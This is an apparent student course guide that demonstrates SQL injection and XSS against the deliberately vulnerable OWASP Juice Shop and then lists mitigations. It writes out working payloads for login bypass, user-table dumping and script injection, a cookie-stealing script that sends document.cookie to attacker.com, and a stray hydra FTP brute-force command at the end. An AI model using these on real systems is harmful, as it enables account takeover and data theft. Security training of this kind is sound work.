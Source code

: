 # SQL Injection (SQLi) and Cross-Site Scripting (XSS) Attack Guide

## Introduction
This document provides a dummy, educational guide on step-by-step instructions for demonstrating SQL Injection (SQLi) and Cross-Site Scripting (XSS) attacks using the OWASP Juice Shop application. This is intended for learning purposes only in a controlled, local environment. Do not use these techniques on real websites without permission, as that would be illegal and unethical.

OWASP Juice Shop is a deliberately insecure web app designed for security training. Assumptions:
- You have Juice Shop running locally (e.g., via Docker: `docker run --rm -p 3000:3000 bkimminich/juice-shop`).
- Access it at http://localhost:3000.
- All steps are for demonstration; in a real project, document with screenshots.

References:
- OWASP Top 10: https://owasp.org/www-project-top-ten/
- Juice Shop Challenges: https://pwning.owasp-juice.shop/part2/challenges.html

## Section 1: SQL Injection (SQLi)
SQLi exploits poor input handling by injecting malicious SQL code into queries, potentially allowing data access, modification, or deletion.

### High-Level Overview
1. Identify input fields that interact with the database (e.g., login, search).
2. Test with probes to detect vulnerabilities (e.g., error messages).
3. Exploit by crafting payloads to bypass auth or extract data.
4. Mitigate with prepared statements, input validation.

### Step-by-Step Dummy Instructions for Demonstration
#### Step 1: Setup and Identification
- Launch Juice Shop and navigate to the login page.
- Enter a single quote (') in the email field and submit. Look for error messages like "SQLITE_ERROR" indicating vulnerability.

#### Step 2: Basic Authentication Bypass (Union-Based SQLi)
- Go to the login page.
- In the email field, enter: `' OR 1=1 --`
- Enter any password (e.g., "test").
- Submit. This makes the query always true, logging you in as the admin user.
- Expected: Successful login without credentials.

#### Step 3: Data Extraction (Union-Based)
- Use the search bar (after logging in or as guest).
- Enter: `') UNION SELECT id, email, password_md5 FROM Users --`
- Submit. This appends a query to dump user data.
- Expected: Search results show leaked emails and hashed passwords.

#### Step 4: Blind SQLi (Time-Based or Boolean)
- In search: `%' AND (CASE WHEN (SELECT COUNT(*) FROM Users) > 0 THEN 1 ELSE (SELECT 1/0) END) --`
- Observe response differences (e.g., error vs. no error) to infer data.
- Expected: Confirms table existence without direct output.

#### Step 5: Documentation Notes
- Take screenshots of input, error messages, and results.
- Note impact: Unauthorized access, data breach.

## Section 2: Cross-Site Scripting (XSS)
XSS injects malicious scripts into web pages, executed in users' browsers, potentially stealing sessions or defacing sites.

### High-Level Overview
1. Find fields that reflect or store user input (e.g., search, comments).
2. Test with script tags to check for execution.
3. Exploit by injecting payloads that run JavaScript.
4. Mitigate with output encoding, sanitization (e.g., DOMPurify).

### Step-by-Step Dummy Instructions for Demonstration
#### Step 1: Setup and Identification
- Navigate to the search bar or customer feedback page in Juice Shop.
- Enter: `<script>alert('test')</script>`
- Submit and observe if an alert pops up, indicating no sanitization.

#### Step 2: Reflected XSS (Immediate Execution)
- In the search bar: `<script>alert('XSS Reflected')</script>`
- Submit. The script reflects back and executes.
- Expected: Alert box appears on the results page.

#### Step 3: Stored XSS (Persistent)
- Go to the "Customer Feedback" page.
- In the comment field: `<script>alert('XSS Stored')</script>`
- Submit the form.
- View the feedback as another user or refresh.
- Expected: Alert executes every time the page loads.

#### Step 4: DOM-Based XSS
- In the search bar: `<iframe src="javascript:alert('DOM XSS')"></iframe>`
- Submit. This manipulates the DOM directly.
- Expected: Alert triggers without server reflection.

#### Step 5: Advanced Payload (e.g., Session Theft)
- Inject: `<script>document.location='http://attacker.com?cookie='+document.cookie</script>`
- Expected: Simulates stealing cookies (in demo, use console to verify).

#### Step 6: Documentation Notes
- Capture browser console logs and alerts.
- Note impact: Cookie theft, phishing.

## Mitigation Strategies (For Both Attacks)
### For SQLi:
- Use parameterized queries (e.g., in Node.js: `db.query('SELECT * FROM users WHERE id = ?', [userId])`).
- Validate input: Check for expected formats (e.g., email regex).
- Sanitize: Escape special characters.

### For XSS:
- Sanitize inputs: Use libraries like DOMPurify.
- Encode outputs: HTML-encode user data before rendering.
- Add CSP headers: `Content-Security-Policy: script-src 'self'`.

## Conclusion
This guide is for educational demo only. In your project, implement fixes in a forked Juice Shop repo and re-test to show improvements. Always follow ethical hacking guidelines.

- Created: September 29, 2025
- For: Web Application Security Project (WAS621S)


hydra -l <username> -P <password_list> <ftp_server>
